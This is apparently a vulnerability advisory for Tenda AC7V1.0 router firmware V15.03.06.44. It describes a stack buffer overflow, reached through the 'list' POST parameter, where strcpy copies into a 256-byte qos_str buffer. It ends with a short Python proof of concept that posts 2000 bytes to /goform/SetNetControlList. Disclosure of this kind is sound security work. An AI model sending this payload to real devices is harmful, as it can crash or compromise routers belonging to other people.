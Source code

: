## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 firmware has a stack overflow vulnerability in the `formSetQosBand` function. The `list` variable receives the `list` parameter from a POST request and this variable is passed into function `setQosMiblist` as `list`. In function `setQosMiblist`, variable `list` is passed to `p`, which is later assigned to the `qos_str` variable, which is fixed at 256 bytes. However, since the user can control the input of `list`, the statement `strcpy(qos_str, p);` can cause a buffer overflow. The user-provided  `list` can exceed the capacity of the `qos_str` array, triggering this security vulnerability.

![image-20240318163148549](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163148549.png)

![image-20240318163338017](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163338017.png)



![image-20240318163256951](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163256951.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetNetControlList"
payload = b"a"*2000

data = {"list": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240318163414028](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318163414028.png)
